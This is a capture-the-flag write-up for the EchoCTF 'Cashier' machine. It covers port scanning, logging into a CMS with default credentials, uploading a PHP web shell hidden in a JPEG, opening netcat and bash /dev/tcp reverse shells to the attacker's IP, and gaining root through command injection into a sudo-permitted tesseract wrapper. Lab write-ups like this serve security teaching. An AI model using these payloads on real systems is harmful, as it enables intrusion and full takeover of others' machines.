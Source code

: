 # Cashier Writeup  for EchoCTF

In this writeup, we will be walking through the steps to exploit a vulnerable CMS and escalate privileges to root on Cashier in EchoCTF.

### Step One: Port Discovery

We use [Nmap](https://nmap.org/) to scan the open ports 

```
nmap -p1-10000 -sCV -n -Pn -v [TARGET_IP] 
```

*p1-10000: Scans ports 1 through 10,000.
sCV: Combines service detection (-sV) with default script scans (-sC) to enumerate service versions and vulnerabilities.
n: Skips DNS resolution for faster scanning.
Pn: Treats the target as online without pinging, useful for firewalled hosts.*


![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/nmap%20result1.png)

We see port **22** (SSH) and port **80** (HTTP)

### Step Two: Getting In

We visit the http website (port 80)
We are prompted to the login page for the CMS

`
http://[TARGET_IP]/login.php
`

Now, we need to find the default username and password for the cms which is easy through a quick online search *(or brute force it, but in this situation it is not needed)*

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/loginSukses.png)



After finding the login credentials and logging into the CMS, we go to the profile section

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/profile1.png)

`http://[TARGET_IP]/index.php?page=user`

#### Step Three: Exploit the CMS

Then, we need to open [BurpSuite](https://portswigger.net/burp)

Select a JPEG image ***(The image has to be JPEG, PNG won't work in this scenario)*** and insert it.

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/profile2.png)

Capture the upload request that is sent by clicking **Ganti Foto**.

Insert a php script into your image that will enable you to get a reverse shell.  
For example:

```php
 <?php system ($_GET['cmd']) ?>
 ```
 or

 ```php
 <?php passthru($_GET['cmd']); __halt_compiler(); ?>
 ```

It should look something like this

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/get%20cmd%20shell.png)

After this, we should see that our image has actually been uploaded to the server

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/success-edit-data.png)

Another indicator that the image has been successfully uploaded will be seeing this:

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/proof%20that%20shell%20is%20uploaded.png)

***The image will be stored with a random number before the name we set, so to find it we need to inspect the page  (Ctrl+Shift+C)***

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/shell%20location.png)

Now, we need to set up a reverse shell, which is done like this:

Open the bash console and type

```nc -nlvp [YOUR_PORT]```

Then, in the url of the image (*which can be copy+pasted from the page source*), we insert this payload to get a reverse shell    

` cmd= nc -e /bin/bash [YOUR_IP] [YOUR_PORT]`

After we've successfully created a reverse shell, we need to see how we can escalate our privileges to root.

### Step Four: Getting Root

if we run 
`sudo -l`

the server returns a script

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/sudoL.png)

Searching online for a tsract (tesseract) exploit, we find that it is vulnerable to arbitrary code execution via the child_process function due to improper input sanitization.
We can leverage this for privilege escalation.

I wrote a simple bash script for this:

`sudo /usr/local/bin/tsract "; bash -c 'bash -i >& /dev/tcp/[YOUR_IP]/[YOUR_PORT] 0>&1'; #"`

***The underlying cause of the vulnerability can be researched further online for detailed technical insights. TL;DR is that the package uses child_process (e.g., exec() or spawn()) to execute Tesseract commands. It appends the image filename provided by the user directly to the command without sanitization.***

The script basically creates a new connection to our machine as root, so we use [netcat](https://netcat.sourceforge.net/) to do this, in a similar fashion to how we did before.

In the new netcat window, we should see a connection like this:

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/cashier/images/root.png)

And we have root! 

### Final Thoughts

This challenge highlighted the importance of understanding how misconfigurations and input sanitization flaws can expose systems to serious risks. By systematically identifying vulnerabilities, and leveraging known exploits, we were able to gain root access on the target system.
From a defensive standpoint, implementing strong security practices such as restricting permissions, sanitizing inputs, and disabling unnecessary services, can greatly reduce the attack surface.

While this challenge was completed in a controlled environment, similar techniques could have devastating effects on real-world systems. Ethical hacking and responsible disclosure are key to ensuring such vulnerabilities are mitigated before they are exploited by malicious actors.

PS: 
```
[YOUR_IP]= Your VPN IP 
[YOUR_PORT]= Custom port to use for netcat
[TARGET_IP]= IP of the machine you are hacking 
```
